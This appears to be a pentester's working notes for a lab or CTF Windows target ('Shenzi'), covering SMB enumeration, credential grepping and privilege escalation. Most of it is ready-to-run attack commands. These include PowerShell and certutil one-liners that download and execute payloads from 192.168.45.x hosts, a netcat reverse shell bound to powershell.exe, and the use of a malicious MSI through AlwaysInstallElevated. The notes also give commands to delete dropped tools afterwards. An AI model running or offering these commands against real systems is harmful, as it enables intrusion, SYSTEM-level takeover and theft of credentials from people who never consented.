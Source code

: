 ```JavaScript
sudo nmap $IP -p- -sV -sS 
```

```JavaScript
smbclient -U ''  -L \\\\$IP\\ 
smbclient -U ''  \\\\$IP\\Shenzi 
recurse
prompt off
mget *
grep -rinE '(password|username|user|pass|key|token|secret|admin|login|credentials)'
```

just download or download and exec

```JavaScript
powershell -c "(New-Object Net.WebClient).DownloadFile('http://192.168.45.162:8000/winPEAS.ps1', 'C:\Windows\Temp\wp.ps1'); powershell -ep bypass -c C:\Windows\Temp\wp.ps1"
```

```JavaScript
powershell -ep bypass -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://192.168.45.162:8000/winPEAS.ps1')"
```

```JavaScript
rpcclient -U '' -N $IP
```

```JavaScript
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://192.168.45.162:8000/s.exe', 'C:\Windows\Temp\s.exe'); Start-Process 'C:\Windows\Temp\s.exe'"
```

[http://$IP/WP-Root-Install/themes/theme-year-name/404.php](http://$ip/WP-Root-Install/themes/theme-year-name/404.php)

try if smb can write

  

![[/image 2.png|image 2.png]]

  

  

  

rlwrap : A wrapper that provides readline functionality (command history, line editing) to commands

sudo rlwrap nc -lnvp 135

- l : Listen mode, for inbound connections
- n : Don't do DNS lookups
- v : Verbose output

stands for "ReadLine Wrapper".

rlwrap is useful when using netcat because it:

1. Provides command line history (using up/down arrow keys)
2. Allows line editing (left/right arrows, backspace)
3. Enables command recall and modification
4. Makes the shell experience more user-friendly when someone connects

rlwrap ：提供指令 readline 功能（指令記錄、行編輯）的包裝器

sudo rlwrap nc -lnvp 135

- l ：監聽模式，用於入站連接  
    -n：不進行 DNS 查找  
    -v ：詳細輸出

rlwrap 在使用 netcat 時很有用，因為它：

1.提供命令列歷史記錄（使用向上/向下箭頭鍵）  
2. 允許行編輯（左/右箭頭、退格鍵）  
3. 支援命令調用與修改  
4. 當有人連線時，讓 shell 體驗更加用戶友好

  

  

=========|| Always Install Elevated Check  
Checking Windows Installer Registry (will populate if the key exists)  
HKLM:\SOFTWARE\Policies\Microsoft\Windows\Installer).AlwaysInstallElevated = 1  
Try msfvenom msi package to escalate  
[https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#metasploit-payloads](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#metasploit-payloads)  
HKCU:\SOFTWARE\Policies\Microsoft\Windows\Installer).AlwaysInstallElevated = 1  
Try msfvenom msi package to escalate  
[https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#metasploit-payloads](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/index.html#metasploit-payloads)

  

grep -rinE '(password|username|user|pass|key|token|secret|admin|login|credentials)' /path/to/downloaded/files

  

the path for wp

# http://$IP/WP-Root-Install/themes/theme-year-name/404.php

  

```Bash
certutil.exe -urlcache -f http://192.168.45.165/winPEAS.bat C:\Windows\Temp\winPEAS.bat & C:\Windows\Temp\winPEAS.bat
```

```Bash
curl http://192.168.45.222:8000/nc/nc64.exe -o nc64.exe & nc64.exe 192.168.45.222 -e powershell.exe
```

```Bash
certutil.exe -urlcache -f http://192.168.45.165/shell.msi C:\Windows\Temp\shell.msi & C:\Windows\Temp\shell.msi
```

  

When the AlwaysInstallElevated registry key is set to 1 in both HKLM and HKCU , it means that Windows Installer (MSI files) will run with elevated privileges (as Administrator or SYSTEM) regardless of the user's actual privilege level. This is a misconfiguration that allows standard users to install applications with administrative rights.

How to Exploit:

You can exploit this by creating a malicious .msi file that, when installed, executes code with elevated privileges. Common payloads include:

1. Adding a user to the Administrators group.
2. Executing a reverse shell with elevated privileges.
3. Creating a service that runs as SYSTEM.  
    Since you have a file named `shell.msi` in your workspace, it is highly probable that this file is a malicious MSI payload designed to exploit this vulnerability. You can likely execute this .msi file on the target system to gain elevated privileges.

To exploit this, you would typically transfer your malicious .msi file to the target machine and then execute it using msiexec :

  

to find the path of nc

```Bash
Get-ChildItem -Path C:\ -Filter nc.exe -Recurse -ErrorAction SilentlyContinue
```

```Bash
Remove-Item -Path "C:\path\to\your\file.ext" -Force

Remove-Item -Path ".\nc64.exe" -Force

del /f "filename.ext"
```

  

```Bash
curl http://192.168.45.222:8000/nc/nc64.exe -o nc64.exe & nc64.exe 192.168.45.222 135 -e powershell.exe
```

```Bash
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck" 
```

```Bash
powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck | Out-File -FilePath 'PrivescCheck_Results.txt'"
```

PowerSploit.psd1

```Bash
powershell -ep bypass -c ". .\PowerSploit.psd1; Invoke-PowerSploit" 
```

```Bash
AlwaysInstallElevated!!!!
```

```Bash
powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
```